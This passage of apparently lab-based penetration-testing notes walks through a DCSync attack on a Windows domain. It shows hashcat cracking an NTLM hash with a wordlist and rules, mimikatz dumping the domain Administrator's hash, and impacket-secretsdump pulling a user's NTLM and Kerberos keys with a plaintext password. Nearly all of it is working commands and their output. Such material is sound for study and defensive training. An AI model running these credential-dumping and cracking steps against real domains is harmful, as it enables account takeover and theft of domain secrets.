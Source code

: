 ##### Step 3: Save NTLM hash and crack with HashCat
```hlt:1,Flowers1
kali@kali:~$ hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
08d7a47a6f9f66b97b1bae4178747494:Flowers1              
...
```

We can also get Domain Admin's hash 
```hlt:1,4
mimikatz # lsadump::dcsync /user:corp\Administrator
...
Credentials:
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
...
```

#### DCSync Attack from Linux 
##### Tool: `impacket-secretsdump`
```hlt:1,08d7a47a6f9f66b97b1bae4178747494
kali@kali:~$ impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
[*] Kerberos keys grabbed
dave:aes256-cts-hmac-sha1-96:4d8d35c33875a543e3afa94974d738474a203cd74919173fd2a64570c51b1389
dave:aes128-cts-hmac-sha1-96:f94890e59afc170fd34cfbd7456d122b
dave:des-cbc-md5:1a329b4338bfa215
[*] Cleaning up...
```
Successfully obtained Dave's NTLM hash
